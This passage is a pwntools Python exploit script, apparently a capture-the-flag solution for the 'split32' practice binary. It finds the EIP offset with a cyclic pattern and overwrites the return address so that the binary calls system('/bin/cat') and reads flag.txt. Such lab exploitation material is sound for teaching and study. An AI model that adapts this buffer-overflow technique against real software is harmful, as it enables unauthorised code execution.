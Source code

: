 ```python
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './split32'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'
# Delete core files after finished
context.delete_corefiles = True

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Locate the functions/strings we need
system_addr = elf.symbols['system']
bincat_addr = next(elf.search(b'/bin/cat'))

# Print out the target address
info("%#x system", system_addr)
info("%#x /bin/cat", bincat_addr)

# We will send a 'cyclic' pattern which overwrites the return address on the stack
payload = cyclic(100)

# PWN
io.sendlineafter('>', payload)

# Wait for the process to crash
io.wait()

# Open up the corefile
core = io.corefile

# Print out the address of EIP at the time of crashing
eip_value = core.eip
eip_offset = cyclic_find(eip_value)
info('located EIP offset at {a}'.format(a=eip_offset))

# Craft a new payload which puts system('/bin/cat flag.txt') at correct offset we have used fit to set the offeset.
payload = fit({
    eip_offset: [elf.symbols.system,
                 0x0, # overwriting the return pointer with any 4 bytes
                 bincat_addr]
}
)

# Send the payload to a new copy of the process
io = start()
io.sendline(payload)
io.recv()

# Get our flag!
flag = io.recvline()
success(flag)
```
